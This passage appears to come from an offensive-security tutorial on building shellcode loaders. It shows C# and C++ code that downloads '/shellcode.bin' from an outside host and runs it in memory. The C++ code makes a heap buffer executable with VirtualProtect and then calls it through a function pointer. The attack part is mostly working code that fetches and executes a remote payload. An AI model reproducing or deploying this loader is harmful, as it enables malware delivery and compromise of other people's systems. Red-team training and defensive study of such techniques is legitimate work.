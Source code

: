 Because C# is a high-level language, it has many abstractions that make this easier, using the HttpClient we can make the same request with way less code:

```
public static async Task Main(string[] args)
{
    byte[] shellcode;

    using (var client = new HttpClient())
    {
        client.BaseAddress = new Uri("https://www.infinity-bank.com");
        shellcode = await client.GetByteArrayAsync("/shellcode.bin");
    }
}
```

*NOTE* The using keyword ensures that all the resources associated with the client are disposed after use

## Function Delegate C++

Now in our C++ code we have the shellcode and now we want to execute it inside the current process. Dynamic memory allocations such as vectors are stored in heap memory. We can allocate a new region of memory and copy the shellcode into it, but we could just leave it and execute directly from the heap.

Heap memory is RW by default, we can make a small region of the heap memory RWX using VirtualProtect API. Steps needed:

- obtain a raw pointer to the shellcode
- pass to VirtualProtect, specifying a size and the new memory protection
- Execute shellcode

```
int main()
{
    std::vector<BYTE> shellcode = Download(L"www.infinity-bank.com\0", L"/shellcode.bin\0");

    // get pointer to buffer
    LPVOID ptr = &shellcode[0];

    // set memory to RWX
    DWORD oldProtect;
    VirtualProtect(
        ptr,
        shellcode.size(),
        PAGE_EXECUTE_READWRITE,
        &oldProtect);

    // execute
    (*(void(*)()) ptr)();
}
```
